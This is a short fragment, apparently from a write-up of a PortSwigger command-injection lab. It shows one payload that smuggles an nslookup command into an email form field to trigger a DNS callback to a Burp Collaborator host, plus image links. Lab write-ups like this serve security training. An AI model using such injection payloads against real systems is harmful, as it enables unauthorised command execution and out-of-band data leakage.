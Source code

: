 paylaod:

```javascript
email=||+nslookup+quofukvwbhd4atyo5xbbkmfudljb70.burpcollaborator.net+||
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/命令注入/images/E187CCAA9FEF402586B18EFE50293A63clipboard.png)

